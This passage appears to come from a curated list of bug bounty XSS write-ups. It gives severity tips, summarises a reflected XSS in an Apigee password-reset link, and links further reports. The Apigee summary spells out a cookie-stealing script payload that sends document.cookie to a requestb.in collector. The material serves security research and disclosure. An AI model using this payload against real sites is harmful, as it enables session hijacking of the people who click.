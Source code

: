     2/ Always look for the highest severity. Here if the program accepted the bug as P4 I would get 100$ for that instead of 10x the bounty for the XSS

    3/ When you find a P5 bug you may use it and chain it with another bug to increase the severity (tip 2), they are not always useless

- [Google Acquisition XSS (Apigee)](https://medium.com/@TnMch/google-acquisition-xss-apigee-5479d7b5dc4)

  I enter apigee.com which provides API management, so as always I start my burp suite and I try to verify all the functions as possible,
  
  On the first try, everything was secure and all my first test failed, but as a bug hunter it should not be 100% secure and nothing is safe, So I log out and start to check the   login and register option, look all right here
  
  at some point, I tried to check the password reset action, get a link in my email account that looks like this
  
  ![xssapigee1](https://miro.medium.com/max/875/1*6XtCH-i6JORylw3RssPuMA.png)
  >
  > https://api.accounts.apigee.com/management/users/[REDACTED]/resetpw?token=ZW0tsHaU-REDACTED-eeTDi2YRIN1CICmFjOSSE2JvllO_-REDACTED-
  >
  Here, I have the idea to try to bypass the token and obtain a valid link for all users, which allows me to update any user password, but this failed too and can’t bypass it
  
  when I was trying to edit the link and change the token code, I saw something normal for me, it looks like this entry has not been filtered here, so I tried to send some XSS     payload as a test.
  
  ![xssapigee2](https://miro.medium.com/max/875/1*ZnE07D9YoVUQ6TO8pUgJBA.png)
  
  ![xssapigee3](https://miro.medium.com/max/875/1*Mh0BMWvAeWAGfP1ksvVJhw.png)
  
  let's steal some cookies 😍
  
  as it's not legal to hack someone account, I tested in my own account
  
  1. create first the payload :
  >
  > https://api.accounts.apigee.com/management/users/xxxxxx/resetpw?token=xxxxxxx"><script>new Image().src=’https://requestb.in/xxxxxx?code='+document.cookie</script><a href=”
  >
  2. ON CLICK & All cookies will be sent to us😅

- [DOM-Based XSS at accounts.google.com by Google Voice Extension](http://www.missoumsai.com/google-accounts-xss.html)
- [XSS on Microsoft.com via Angular Js template injection](https://medium.com/@impratikdabhi/reflected-xss-on-microsoft-com-via-angular-template-injection-2e26d80a7fd8)
>
> https://youtu.be/PWIx5a59cKI
> 
- [Researching Polymorphic Images for XSS on Google Scholar](https://blog.doyensec.com/2020/04/30/polymorphic-images-for-xss.html)
- [Netflix Party Simple XSS](https://medium.com/@kristian.balog/netflix-party-simple-xss-ec92ed1d7e18)
- [Stored XSS in google nest](https://medium.com/bugbountywriteup/stored-xss-in-google-nest-a82373bbda68)
- [Self XSS to persistent XSS on login portal](https://medium.com/@nnez/always-escalate-from-self-xss-to-persistent-xss-on-login-portal-54265b0adfd0)
- [Universal XSS affecting Firefox ](https://0x65.dev/blog/2020-03-30/cve-2019-17004-semi-universal-xss-affecting-firefox-for-ios.html)
- [XSS WAF Character limitation bypass like a boss](https://medium.com/bugbountywriteup/xss-waf-character-limitation-bypass-like-a-boss-2c788647c229)
- [Self XSS to Account Takeover ](https://medium.com/@ch3ckm4te/self-xss-to-account-takeover-72c89775cf8f)
- [Reflected XSS on Microsoft subdomains ](https://medium.com/bugbountywriteup/reflected-xss-on-microsoft-com-subdomains-4bdfc2c716df)